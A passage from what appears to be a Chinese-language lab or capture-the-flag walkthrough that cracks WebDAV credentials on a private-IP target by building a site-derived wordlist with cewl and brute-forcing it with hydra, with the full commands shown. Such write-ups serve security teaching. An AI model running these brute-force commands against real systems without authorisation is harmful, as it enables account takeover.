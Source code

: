 那只能暴力破解了，发现纯暴力破解无法破解成功

可不可以定制一个字典去破解呢？

使用cewl工具，指定一个站点它会去爬去站点中的人类可识别或语义有含义的字符组成字典

```Plain Text
cewl http://192.168.108.134 -w dict.txt
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/Qi8DK_MMIn6neKFBC6TlTwSS905D8WZKccJ7YweAnMY.png?raw=true)

生成了82行

使用hydra工具进行爆破破解

```Plain Text
hydra -L dict.txt -P dict.txt 192.168.108.134 http-get /webdav -v
http-get方法下面的WebDAV
-v显示破解出的账号密码
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/1P2l9qwSMwGXBqw4DzqiGPrhy9rE3pkzg4CwUoxirjo.png?raw=true)
